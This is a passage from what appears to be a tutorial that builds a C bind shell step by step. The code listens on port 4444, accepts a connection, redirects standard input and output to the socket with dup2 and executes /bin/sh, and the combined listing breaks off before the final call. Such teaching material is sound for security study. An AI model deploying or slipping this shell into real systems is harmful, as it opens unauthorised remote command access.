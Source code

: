 Our call is:
```c
listen(sockfd, 0);
```
### Accept a connection
Now that our socket is listening, we can start the process to accept a connection attempt.
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
This is also fairly straight forward.  We can use the socket created in step 1 for the first parameter, and just put NULL for the last 2. 
Note that this function's return value is important to us here.  We will need the return value in order to keep track of the client connection's file descriptor:
> On success, these system calls return a nonnegative integer that is a file descriptor for the accepted socket.

So our call becomes:
```c
int client_socket = accept(sockfd, NULL, NULL);
```
### Redirect output
In order to get input and send output, we need to redirect stdin, stdout, and stderr to the socket using dup2.
```c
int dup2(int oldfd, int newfd);
```
oldfd will be the client_socket that we accepted and newfd will refer to the integers that represent stdin (0), stdout (1), stderr (2).

Our calls will be:
```c
dup2(client_socket, 0);
dup2(client_socket, 1);
dup2(client_socket, 2);
```

### Execute a shell
Now that everything is set up, we just need to execute the shell using execve:
```c
execve("/bin/sh", NULL, NULL);
```
### Putting it all together
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>

int main() {
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in sock_addr;

    sock_addr.sin_family = AF_INET;
    sock_addr.sin_port = htons(4444);
    sock_addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));
    
    listen(sockfd, 0);
    
    int client_socket = accept(sockfd, NULL, NULL);
    
    dup2(client_socket, 0);
    dup2(client_socket, 1);
```